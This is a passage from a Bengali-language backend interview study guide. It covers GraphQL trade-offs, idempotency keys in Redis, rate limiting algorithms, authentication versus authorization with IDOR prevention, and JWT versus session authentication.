**অসুবিধাসমূহ:**
- **Over-fetching:** দরকার নেই এমন ডেটা রেসপন্সে আসে (যেমন শুধু নাম দরকার হলেও পুরো প্রোফাইলের ৪০টা ফিল্ড চলে আসে), যা ব্যান্ডউইথ নষ্ট করে।
- **Under-fetching / N+1 Request:** একটি পেজের ডেটা দেখাতে একাধিক এপিআই কল করতে হয় (যেমন প্রথমে ইউজার ডেটা, তারপর অর্ডারের ডেটা)।

### GraphQL-এর সুবিধা ও অসুবিধা

**সুবিধাসমূহ:**
- **No Over/Under-fetching:** ক্লায়েন্ট যা চাইবে, ঠিক ততটুকুই রেসপন্সে পাবে।
- **Single Endpoint:** একাধিক রাউটের ঝামেলা নেই, `/graphql` এন্ডপয়েন্টে সব কুয়েরি চলে।
- **Strongly Typed Schema:** SDL (Schema Definition Language) এবং কোড জেনারেশন টুলস দিয়ে টাইপ-সেফ কোড লেখা সহজ।
- **Frontend Velocity:** ব্যাকএন্ডকে নতুন এপিআই বানাতে না বলেই ফ্রন্টএন্ড টিম প্রয়োজনীয় ফিল্ড অ্যাক্সেস করতে পারে।

**অসুবিধাসমূহ:**
- **Complex Caching:** রিকোয়েস্টগুলো মূলত `POST` মেথডে পাঠানো হয় এবং কোয়েরি বডি ডায়নামিক হওয়ায় standard HTTP ক্যাশিং কাজ করে না। কাস্টম ক্যাশিং (Apollo Client/Redis key hashes) করতে হয়।
- **N+1 Database Queries:** রিল্যাশনাল বা রিলেটেড অবজেক্ট কুয়েরি করার সময় অবহেলার কারণে ডাটাবেসে লুপের ভেতর কুয়েরি রান হতে পারে (N+1 Problem)।
- **Query Complexity Risk:** ক্ষতিকারক ক্লায়েন্ট খুব গভীর এবং বড় নেস্টেড কুয়েরি পাঠিয়ে সার্ভার বা ডাটাবেস ক্র্যাশ করিয়ে দিতে পারে (DoS)।

### Senior Insight

- **DataLoader Pattern:** GraphQL-এর N+1 কুয়েরি প্রবলেম সলভ করতে অবধারিতভাবে **DataLoader** প্যাটার্ন ব্যবহার করা উচিত। এটি ডাটাবেস রিকোয়েস্টগুলোকে ব্যাচ (Batch) এবং ড্রাইভ করে ক্যাশ করে।
- **Query Cost Analysis:** প্রোডাকশনে গ্রাফکیউএল এপিআই ওপেন করার আগে কুয়েরির গভীরতা ও সাইজ লিমিট করতে **Query Depth Limiting** এবং **Query Cost Analysis** ইমপ্লিমেন্ট করা আবশ্যক।
- **BFF (Backend For Frontend):** গ্রাফকিউএলের পুরো কমপ্লিক্সিটি ব্যাকএন্ডে না নিয়ে এসে, কোর ব্যাকএন্ড REST-এই রেখে ফ্রন্টএন্ডের জন্য একটি হালকা BFF (GraphQL/Node.js Gateway) লেয়ার বসানো একটি চমৎকার প্র্যাগম্যাটিক ডিজাইন।

### Common Mistakes

- **Using GraphQL blindly for simple CRUD:** সাধারণ অ্যাপ্লিকেশনে ক্যাশিং ওভারহেড ও সিকিউরিটি সেটাপের ঝামেলার কারণে গ্রাফকিউএল উল্টো বোঝা হয়ে দাঁড়াতে পারে।
- **Not securing fields:** গ্রাফকিউএলে অথরাইজেশন শুধুমাত্র গেটওয়ে লেভেলে না রেখে অবজেক্টের **Field-level Resolver**-এও হ্যান্ডেল করতে হবে, অন্যথায় ডেটা লিক হতে পারে।

### Interview Angle

> "REST ক্যাশ-ফ্রেন্ডলি এবং সিম্পল সিস্টেম বা পাবলিক এপিআই-এর জন্য আইডিয়াল। অপরদিকে GraphQL ফ্রন্টএন্ড-ড্রিভেন এবং মাল্টিপল ডিভাইস ও রিলেশনাল ডেটা হ্যান্ডেল করার জন্য অত্যন্ত নমনীয়। ব্যাকএন্ড আর্কিটেক্ট হিসেবে ক্যাশিংয়ের প্রয়োজনীয়তা, টিমের ম্যাচিউরিটি এবং পারফরম্যান্স ফ্যাক্টর এনালাইসিস করে টেকনোলজি চয়েস করতে হবে। গ্রাফকিউএল ইউজ করলে ডেটালোডার ও কুয়েরি লিমিটিং নিশ্চিত করতে হবে।"


## 6. Idempotency in APIs

### Core Idea

**Idempotency (আইডেমপোটেন্সি):** হলো এপিআই-এর এমন একটি বৈশিষ্ট্য যেখানে একই রিকোয়েস্ট এক বা একাধিকবার পাঠালেও সিস্টেমের ফাইনাল স্টেটের কোনো পরিবর্তন হয় না এবং প্রতিবার একই রেসপন্স আসে।

### HTTP Methods Idempotency Table

| Method | Idempotent | কেন? |
| :--- | :---: | :--- |
| **GET** | **Yes** | এটি শুধু ডেটা রিড করে, কোনো স্টেট চেঞ্জ করে না। |
| **PUT** | **Yes** | এটি পুরো রিসোর্স রিপ্লেস করে। একই ভ্যালু দিয়ে ১০ বার রিপ্লেস করলেও ফাইনাল ভ্যালু একই থাকে। |
| **DELETE** | **Yes** | প্রথমবার রিসোর্স ডিলিট হয়ে যাবে। পরেরবার ডিলিট করতে চাইলে রিসোর্স পাওয়া যাবে না (404), তবে সিস্টেমের স্টেট চেঞ্জ হবে না (রিসোর্স ডিলিটেডই থাকবে)। |
| **POST** | **No** | প্রতিবার কল করলে ডাটাবেসে নতুন রো ক্রিয়েট হতে পারে (যেমন ডুপ্লিকেট পেমেন্ট বা অর্ডার)। |

### Real-world Payment / Order Issue & Solution

ধরুন, ইউজার সাবস্ক্রিপশন কেনার জন্য পেমেন্ট বাটনে ক্লিক করার পর নেটওয়ার্ক ড্রপ করলো। ইউজার পুনরায় বাটনে ক্লিক করলো। ব্যাকএন্ডে যদি আইডেমপোটেন্সি হ্যান্ডেল না থাকে, তবে ইউজারের কার্ড থেকে **দুইবার টাকা কেটে নেওয়া হবে**, যা একটি মারাত্মক বাগ।

নিচে **Idempotency Key** এবং **Redis** ব্যবহার করে এই সমস্যা সমাধানের স্ট্যান্ডার্ড প্রসেস দেখানো হলো:



### Implementation Steps & Details

1. **Idempotency Header:** ক্লায়েন্ট প্রতিটি মিউটেটিং রিকোয়েস্টের সাথে একটি ইউনিক আইডেন্টিফায়ার পাঠাবে (যেমন: `Idempotency-Key: uuid-v4`)।
2. **Distributed Lock (SETNX in Redis):** সার্ভার রিকোয়েস্টটি পাওয়ার পর Redis-এ লক নেওয়ার চেষ্টা করবে:
   ```text
   SET idempotency:key "PROCESSING" NX EX 86400
   ```
   - যদি কি-টি নতুন হয় (`NX` সফল), তবে সার্ভার আসল পেমেন্ট প্রোসেসিং বা ডেটাবেস ট্রানজেকশন রান করবে।
   - যদি কি-টি আগে থেকেই থাকে, তবে সার্ভার চেক করবে এর কারেন্ট স্ট্যাটাস।
3. **Handling processing state:** স্ট্যাটাস যদি `"PROCESSING"` থাকে, তবে ক্লায়েন্টকে `409 Conflict` পাঠিয়ে বলা হবে রিকোয়েস্টটি নিয়ে কাজ চলছে, অপেক্ষা করুন।
4. **Caching Response:** কাজ শেষ হলে সার্ভার স্ট্যাটাসটি আপডেট করে রেসপন্স ডেটা সেভ করে রাখবে:
   ```text
   SET idempotency:key "SUCCESS:response_body" EX 86400
   ```
   পরবর্তীতে একই কী দিয়ে রিকোয়েস্ট এলে ডাটাবেস বা পেমেন্ট গেটওয়েতে না গিয়ে সরাসরি Redis থেকে ক্যাশড রেসপন্সটি রিটার্ন করা হবে।

### Senior Insight

- **Payload Validation:** যদি একই `Idempotency-Key` ব্যবহার করে কিন্তু ভিন্ন বডি (যেমন অ্যামাউন্ট ১০০-এর জায়গায় ৫০০) দিয়ে রিকোয়েস্ট পাঠানো হয়, তবে সার্ভার প্রসেস না করে সরাসরি এরর (`400 Bad Request`) দিবে। এর জন্য `Request Hash` মেইনটেইন করতে হয়।
- **Zero-Downtime DB Failures:** ডিস্ট্রিবিউটেড সিস্টেমে নেটওয়ার্ক টাইমআউট হলে ক্লায়েন্ট কিন্তু জানে না রিকোয়েস্ট সফল নাকি ব্যর্থ হয়েছে। আইডেমপোটেন্সি ছাড়া রিলায়েবল রিট্রাই মেকানিজম (Reliable Retries) তৈরি করা অসম্ভব।

### Common Mistakes

- **Frontend-only Disable Button:** শুধুমাত্র ফ্রন্টএন্ডে বাটন ডিজেবল করে ডুপ্লিকেট পেমেন্ট আটকানোর চেষ্টা করা ভুল, কারণ নেটওয়ার্ক রিট্রাই বা ডিরেক্ট কার্ল রিকোয়েস্টে এটি ফেইল করবে।
- **Storing Idempotency Keys In-Memory:** সেশন-মেমোরি বা অ্যাপ-মেমোরিতে রাখলে হরাইজন্টাল স্কেলিং কাজ করবে না। অবশ্যই Redis বা Shared DB ব্যবহার করতে হবে।

### Interview Angle

> "আইডেমপোটেন্সি নিশ্চিত করে যে ডুপ্লিকেট বা নেটওয়ার্ক রিট্রাই রিকোয়েস্ট সিস্টেমে কোনো আনওয়ান্টেড সাইড-ইফেক্ট তৈরি না করে। আমরা মূলত Redis-এ ক্লায়েন্ট-প্রদত্ত `Idempotency-Key` দিয়ে ডিস্ট্রিবিউটেড লক ও স্ট্যাটাস ট্র্যাকিং বসিয়ে এটি সলভ করি। পেমেন্ট এবং অর্ডার সিস্টেমে ডুপ্লিকেট ট্রানজেকশন এড়াতে এটি অত্যন্ত গুরুত্বপূর্ণ ও বাধ্যতামূলক ডিজাইন।"


## 7. Rate Limiting Strategies

### Core Idea

**Rate Limiting:** হলো সিস্টেমে আগত ইনকামিং ট্রাফিকের ওপর একটি নির্দিষ্ট সীমা বসানো। এটি নিশ্চিত করে কোনো নির্দিষ্ট ইউজার, আইপি বা এপিআই কী কোনো নির্দিষ্ট সময়ে সিস্টেমে প্রয়োজনের অতিরিক্ত রিকোয়েস্ট পাঠিয়ে যেন সিস্টেম ডাউন বা ওভারলোড করতে না পারে।

### কেন দরকার?
- **DDoS/Abuse Mitigation:** হ্যাকার ও স্ক্র্যাপারদের আক্রমণ থেকে সিস্টেম বাঁচানো।
- **Fair Usage:** সব ইউজার যেন সমানভাবে রিসোর্স পায় তা নিশ্চিত করা।
- **Cost Control:** থার্ড-পার্টি বা এক্সপেনসিভ এপিআই-এর ক্ষেত্রে বিল কমানো।

### Common Strategies (অ্যালগরিদমস)

নিচে বহুল ব্যবহৃত **Token Bucket** এবং **Leaky Bucket** অ্যালগরিদমের ভিজ্যুয়ালাইজেশন দেওয়া হলো:



#### ১. Fixed Window Counter
- নির্দিষ্ট সময় উইন্ডোতে (যেমন প্রতি মিনিটে ১০০ রিকোয়েস্ট) রিকোয়েস্ট কাউন্টার মেইনটেইন করা হয়।
- **সমস্যা:** উইন্ডো বাউন্ডারি প্রবলেম (যেমন ১১:৫৯:৫৯-এ ১০০ রিকোয়েস্ট এবং ১২:০০:০১-এ আবার ১০০ রিকোয়েস্ট এলে ২ সেকেন্ডে ২০০ রিকোয়েস্ট হয়ে যায়, যা সার্ভার ওভারলোড করতে পারে)।

#### ২. Sliding Window Counter
- গত ১ মিনিট বা নির্দিষ্ট সময়ের চলমান উইন্ডোর ওপর ভিত্তি করে রিকোয়েস্ট কাউন্ট করে। এটি বাউন্ডারি স্পাইক সমস্যা সম্পূর্ণ দূর করে তবে এতে এক্সট্রা মেমোরি লাগে।

#### ৩. Token Bucket
- একটি বাকেটে নির্দিষ্ট রেটে টোকেন জমা হতে থাকে (Refill Rate, $r$). প্রতিটি রিকোয়েস্ট প্রসেস করতে ১টি টোকেন লাগে। বাকেট খালি হলে রিকোয়েস্ট রিজেক্ট হয়।
- **সুবিধা:** এটি ট্রাফিকের ক্ষণস্থায়ী স্পাইক বা **Burst Traffic** সাপোর্ট করে (বাকেট ফুল থাকলে ব্যাক-টু-ব্যাক রিকোয়েস্ট প্রসেস করা যায়)।

#### ৪. Leaky Bucket
- সব রিকোয়েস্ট একটি নির্দিষ্ট সাইজের কিউতে (Bucket) জমা হয় এবং একটি নির্দিষ্ট ধ্রুবক রেটে (Leak Rate) কিউ থেকে বের হয়ে প্রসেস হয়। কিউ ফুল হলে রিকোয়েস্ট ড্রপ হয়।
- **সুবিধা:** এটি ট্রাফিককে একদম মসৃণ (Smooth Traffic Output) করে দেয়, কোনো স্পাইক বা বার্স্ট অ্যালাউ করে না।

### Senior Insight

- **Distributed Rate Limiting:** রিয়েল-ওয়ার্ল্ড ডিস্ট্রিবিউটেড আর্কিটেকচারে এপিআই গেটওয়ে বা Redis-এর সাথে **Lua Script** ব্যবহার করে রেট লিমিটার বানানো হয়। Lua Script-এর মাধ্যমে Redis অপারেশনগুলো পারফর্ম করা হয় Atomic-ভাবে, যা রেস কন্ডিশন (Race Condition) প্রতিরোধ করে।
- **Headers to Return:** এপিআই রেসপন্সে রেট লিমিট স্ট্যাটাস পাঠানো গুড প্র্যাকটিস:
  ```http
  HTTP/1.1 429 Too Many Requests
  Retry-After: 30
  X-RateLimit-Limit: 100
  X-RateLimit-Remaining: 0
  X-RateLimit-Reset: 171000000
  ```
- **Fail-Open vs Fail-Closed:** যদি রেট লিমিটার ডাটাবেস (যেমন Redis) ডাউন হয়ে যায়, তবে কি আমরা সব রিকোয়েস্ট ব্লক করে দিব (Fail-Closed) নাকি রিকোয়েস্ট অ্যালাউ করব (Fail-Open)? সাধারণত নন-ক্রিটিক্যাল সার্ভিসে Fail-Open পলিসি নেওয়া হয় যাতে ইন্টারনাল ইস্যুর জন্য ইউজার এক্সপেরিয়েন্স নষ্ট না হয়।

### Common Mistakes

- **Relying solely on Client IP:** একই অফিসের বা ওয়াইফাইয়ের হাজারো ইউজার একই পাবলিক আইপি ব্যবহার করতে পারে। শুধুমাত্র IP-based লিমিট বসালে অনেক লেজিটিমেট ইউজার ব্লক হয়ে যেতে পারে। অথেনটিকেটেড রুটে `User_ID` বা `API_Key` দিয়ে লিমিট ট্র্যাকিং করা উচিত।
- **Same limits for all endpoints:** পেমেন্ট বা ডিরেক্ট ডিবি রাইটের মতো এক্সপেনসিভ এপিআই-তে টাইট লিমিট রাখা উচিত, অন্যদিকে সাধারণ গেট বা রিড এপিআই-তে লুজ লিমিট রাখা দরকার।

### Interview Angle

> "রেট লিমিটিং সিস্টেমকে ডাউন হওয়া এবং অ্যাবিউজ থেকে রক্ষা করে। বার্স্ট ট্রাফিকের জন্য Token Bucket এবং স্মুথ রাউটিংয়ের জন্য Leaky Bucket অ্যালগরিদম আইডিয়াল। প্রোডাকশনে Redis ও Lua স্ক্রিপ্ট ব্যবহার করে একটি ডিস্ট্রিবিউটেড রেট লিমিটার ডিজাইন করা উচিত। রিকোয়েস্ট লিমিট ক্রস করলে রেসপন্সে HTTP 429 এর সাথে Retry-After হেডার দিয়ে ক্লায়েন্টকে জানানো প্র্যাকটিস।"


## 8. Authentication vs Authorization

### Core Idea

- **Authentication (AuthN):** আপনি কে? (Identity Verification). এটি প্রমাণ করে যে একজন ইউজার আসলেই সে যিনি দাবি করছেন (যেমন: লগইন, ইউজারনেম/পাসওয়ার্ড, ওটিপি, সোশাল অথ)।
- **Authorization (AuthZ):** আপনি কী করতে পারবেন? (Permissions & Access Control). এটি চেক করে একজন ভেরিফাইড ইউজারের কোনো নির্দিষ্ট অ্যাকশন নেওয়ার বা রিসোর্স দেখার পারমিশন আছে কিনা (যেমন: এডমিন প্যানেল অ্যাক্সেস, ফাইল ডিলিট)।

### রিকোয়েস্ট ফ্লোতে AuthN ও AuthZ-এর ভূমিকা



### Authorization Models (মডেলসমূহ)

1. **RBAC (Role-Based Access Control):** ইউজারকে একটি নির্দিষ্ট রোল দেওয়া হয় (যেমন: Admin, Editor, Viewer) এবং রোলের ওপর ভিত্তি করে পারমিশন ডিফাইন করা হয়। মাঝারি সাইজের অ্যাপের জন্য এটি সহজ ও দারুণ।
2. **ABAC (Attribute-Based Access Control):** এটি অনেক ডাইনামিক। ইউজার, রিসোর্স এবং এনভায়রনমেন্ট অ্যাট্রিবিউটের ওপর ভিত্তি করে অ্যাক্সেস ডিফাইন হয় (যেমন: "শুধুমাত্র ডেভলপমেন্ট টিমের ম্যানেজাররা রাত ১০টার পর এই এপিআই কল করতে পারবে")।
3. **ACL (Access Control List):** রিসোর্স লেভেলে সরাসরি পারমিশন ম্যাপিং (যেমন: ফাইল X শুধুমাত্র ইউজার A রিড করতে পারবে)।
4. **Policy-Based:** সেন্ট্রাল পলিসি ইঞ্জিন (যেমন OPA - Open Policy Agent) ব্যবহার করে এন্টারপ্রাইজ লেভেলে কমপ্লেক্স অ্যাক্সেস পলিসি মেইনটেইন করা।

### Senior Insight (Vulnerability Prevention)

- **IDOR (Insecure Direct Object Reference) Prevention:** প্রোডাকশন অ্যাপ্লিকেশনে শুধুমাত্র ইউজারের লগইন এবং রোল চেক করাই যথেষ্ট নয়। রিসোর্সের **Ownership** অবশ্যই চেক করতে হবে।
  - **ভুল কোড:** ইউজার লগইন অবস্থায় থাকলে সরাসরি `GET /orders/123` এর রেসপন্স রিটার্ন করা।
  - **সঠিক কোড:** ডাটাবেস কুয়েরি করার সময় চেক করা:
    ```sql
    SELECT * FROM orders WHERE id = 123 AND user_id = CURRENT_USER_ID;
    ```
- **Separation of Concerns:** মনোলিথ অ্যাপে অথরাইজেশন কোডের গভীরে থাকলেও মাইক্রোসার্ভিস আর্কিটেকচারে গেটওয়ে লেভেলে শুধুমাত্র AuthN শেষ করে অথরাইজড ইউজার কন্টেক্সট (`X-User-Id`, `X-User-Role`) ডাউন্সট্রিম সার্ভিসগুলোতে পাস করা হয়, যেখানে সার্ভিসগুলো নিজস্ব রিসোর্স লেভেল AuthZ হ্যান্ডেল করে।

### Common Mistakes

- **Confusing 401 Unauthorized & 403 Forbidden:**
  - **HTTP 401 (Unauthorized):** আসলে এর অর্থ **Unauthenticated** (ইউজার কে সিস্টেম জানে না, লগইন রিকোয়ার্ড)।
  - **HTTP 403 (Forbidden):** ইউজার অথেনটিকেটেড, কিন্তু এই কাজ করার পারমিশন তার নেই।
- **Client-Side Authorization Trust:** ফ্রন্টএন্ডে বাটন হাইড বা রুট প্রটেক্ট করলেই অ্যাপ সিকিউর হয়ে যায় না। হ্যাকাররা সরাসরি এপিআই হিট করতে পারে, তাই প্রতিটা এপিআই-তে ব্যাকএন্ড লেভেলে ইনডিপেন্ডেন্ট অথরাইজেশন চেক মাস্ট।

### Interview Angle

> "Authentication ইউজারের আইডেন্টিটি প্রমাণ করে এবং Authorization ইউজারের অ্যাকশন পারমিশন ভ্যালিডেট করে। প্রোডাকশন এপিআই-তে AuthN ফেইল করলে HTTP 401 এবং AuthZ ফেইল করলে HTTP 403 রিটার্ন করা স্ট্যান্ডার্ড। এছাড়াও সিস্টেমে IDOR সিকিউরিটি ভালনারেবিলিটি এড়াতে প্রতিটা রিকোয়েস্টে রিসোর্স ওনারশিপ ও অ্যাক্সেস পলিসি চেক করা অবধারিত।"


## 9. JWT vs Sessions

### Session-Based Authentication (Stateful)

এটি একটি ট্র্যাডিশনাল এপ্রোচ। ইউজার লগইন করার পর সার্ভার মেমোরি বা ডাটাবেসে (Redis) একটি সেশন অবজেক্ট ক্রিয়েট করে এবং ব্রাউজারকে একটি সেশন আইডি (`session_id`) পাঠায় যা ব্রাউজার কুকিতে স্টোর করে রাখে।



**সুবিধাসমূহ:**
- **Instant Revocation:** সার্ভার চাইলে যেকোনো মুহূর্তে সেশন স্টোর থেকে ডিলিট করে দিয়ে ইউজারের সেশন বাতিল বা লগআউট করে দিতে পারে।
- **Small Payload:** কুকিতে শুধুমাত্র একটি হালকা সেশন আইডি থাকে।

**অসুবিধাসমূহ:**
- **Scaling Complexity:** প্রতিটি এপিআই কলে সেশন স্টোরে রিড রিকোয়েস্ট করতে হয়। মাল্টি-সার্ভার সেটআপে সেন্ট্রাল সেশন স্টোর (যেমন Redis) ছাড়া হরাইজন্টাল স্কেলিং সম্ভব হয় না।

---

### JWT-Based Authentication (Stateless)

ইউজার লগইন করার পর সার্ভার তার আইডেন্টিটি এবং ক্লেমস (Claims, যেমন User ID, Role) নিয়ে একটি ক্রিপ্টোগ্রাফিক্যালি সাইনড টোকেন (Signed Token) জেনারেট করে ক্লায়েন্টকে দিয়ে দেয়। ক্লায়েন্ট এটি লোকালস্টোরেজ বা কুকিতে রেখে প্রতি রিকোয়েস্টের সাথে পাঠায়।



**সুবিধাসমূহ:**
- **Stateless & Scalable:** সার্ভারকে কোনো সেশন মেমোরি রাখতে হয় না। শুধুমাত্র সিক্রেট কী দিয়ে টোকেনের সিগনেচার যাচাই করলেই চলে, যা স্কেলিং সহজ করে।
- **Decoupled Architecture:** মাইক্রোসার্ভিসে গেটওয়ে বা ইন্ডিভিজুয়াল সার্ভিসগুলো ডেটাবেস টাচ না করেই টোকেন ভ্যালিডেট করতে পারে।

**অসুবিধাসমূহ:**
- **Hard to Revoke:** টোকেন একবার ইস্যু হয়ে গেলে এর মেয়াদ (Expiry) শেষ হওয়ার আগে সার্ভার ডিরেক্টলি এটি ইনভ্যালিড বা ডিজেবল করতে পারে না (যদি না কোনো রিভোক লিস্ট রাখা হয়)।
- **Size Overhead:** বেশি ডেটা রাখলে টোকেনের সাইজ বড় হয়ে যায়, যা প্রতি রিকোয়েস্টের ব্যান্ডউইথ বাড়ায়।

### Senior Insight (Security & Revocation)

বাস্তব প্রোডাকশন সিস্টেমে JWT-এর লিমিটেশন সলভ করতে **Dual Token Strategy** ব্যবহার করা হয়:
1. **Access Token:** এর মেয়াদ খুবই কম রাখা হয় (যেমন ১৫ মিনিট)। এটি দিয়ে ক্লায়েন্ট এপিআই অ্যাক্সেস করে।
2. **Refresh Token:** এর মেয়াদ বেশি রাখা হয় (যেমন ৭ দিন)। এটি সিকিউর ডাটাবেস বা Redis-এ সেভ থাকে।
3. যখন Access Token এক্সপায়ার হয়ে যায়, ক্লায়েন্ট Refresh Token দিয়ে ব্যাকএন্ড থেকে নতুন Access Token জেনারেট করে নেয়।
4. ইউজার যদি পাসওয়ার্ড চেঞ্জ করে বা লগআউট করে, সার্ভার তার Refresh Token-টি রিভোক বা ডিলিট করে দেয়। এর ফলে ১৫ মিনিটের মধ্যে হ্যাকারদের অ্যাক্সেস সম্পূর্ণ ব্লক হয়ে যায়।

### Common Mistakes

- **Storing Sensitive Data in JWT:** মনে রাখতে হবে, JWT ইনক্রিপ্টেড নয় (এটি জাস্ট Base64 URL Encoded). যেকোনো ব্যক্তি টোকেনটি কপি করে [jwt.io](https://jwt.io)-এ ডিকোড করে ভেতরের ডেটা দেখতে পারবে। তাই পাসওয়ার্ড, ব্যাংক ব্যালেন্সের মতো সেন্সিটিভ ডেটা JWT পেলোডে রাখা যাবে না।
